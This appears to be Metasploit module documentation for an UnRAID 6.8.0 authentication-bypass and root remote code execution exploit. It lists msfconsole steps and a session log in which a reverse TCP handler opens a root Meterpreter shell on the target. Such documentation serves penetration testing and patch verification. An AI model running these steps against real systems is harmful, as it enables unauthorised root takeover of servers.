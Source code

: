 ## Vulnerable Application

This module has been tested on UnRAID 6.8.0 without any configuration except setting a root password. Only UnRAID 6.8.0 is affected.

### Description

This module exploits an authentication bypass vulnerability caused by an insecure whitelisting mechanism in `auth_request.php` and then
performs remote code execution as root by abusing the *extract* function used in the `template.php` file.

### Testing Environment

Download links are provided for reference only and are not maintained by the project. Utilize at your own risk!
Setup [Unraid 6.8.0](https://s3.amazonaws.com/dnld.lime-technology.com/stable/unRAIDServer-6.8.0-x86_64.zip)
according to the [UnRAID Getting Started](https://wiki.unraid.net/UnRAID_6/Getting_Started) guide.

## Verification Steps

  1. Setup UnRAID 6.8.0
  2. Start `msfconsole`
  3. `use exploit/linux/http/unraid_auth_bypass_exec`
  4. `set RHOST [UNRAID]`
  5. `check`
  6. `run`
  7. You should get a new *root* session

## Options

  **TARGETURI** : The URI of the Unraid application

## Scenarios

```
msf > use exploit/linux/http/unraid_auth_bypass_exec.rb
msf exploit(linux/http/unraid_auth_bypass_exec) > set RHOSTS 10.10.0.173
RHOSTS => 10.10.0.173
msf exploit(linux/http/unraid_auth_bypass_exec) > check
[*] 10.10.0.173:80 - The target appears to be vulnerable.
msf exploit(linux/http/unraid_auth_bypass_exec) > run

[*] Started reverse TCP handler on 10.10.0.161:4444 
[*] Sending stage (38288 bytes) to 10.10.0.173
[*] Meterpreter session 1 opened (10.10.0.161:4444 -> 10.10.0.173:46894) at 2020-03-20 15:26:40 +0100
[+] Request timed out, OK if running a non-forking/blocking payload...

meterpreter > getuid
Server username: root (0)
```
